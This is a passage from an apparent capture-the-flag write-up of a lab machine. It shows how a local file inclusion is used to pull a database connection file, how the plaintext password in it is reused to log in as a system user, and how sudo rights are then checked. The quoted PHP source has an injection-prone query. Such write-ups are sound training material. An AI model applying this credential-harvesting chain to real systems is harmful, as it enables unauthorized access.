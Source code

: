 We got LFI! 

### Step 3
Lets see if we can find any sensitive files; `id_rsa` would be optimal but we aren't able to access either `gbyolo` or `developer`'s.
We can start to look for any files containing the database connection and hopefully be able to extract credentials from there. 
Start by grabbing `manage_user.php` that we found earlier, and the very top gives us the database connection file; `db_connect.php`.
```php
<?php 
include('db_connect.php');
session_start();
if(isset($_GET['id'])){
$user = $conn->query("SELECT * FROM users where id =".mysql_real_escape_string($_GET['id']));
foreach($user->fetch_array() as $k =>$v){
	$meta[$k] = $v;
}
}
?>
```

Download `db_connect.php` and bingo, we got a password! 
```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

Try to login with found password against user `gbyolo` and/or `developer`:
```bash
gbyolo@faculty:~$ id && cat user.txt
uid=1000(gbyolo) gid=1000(gbyolo) groups=1000(gbyolo)
cat: user.txt: No such file or directory
```

We don't have ``user.txt`` right yet, but we can confirm that `gbyolo:Co.met06aci.dly53ro.per` is correct and we have a foothold on the victim.


### Step 4
Pivot! Start with usual `sudo -l`
```bash
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo: 
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```
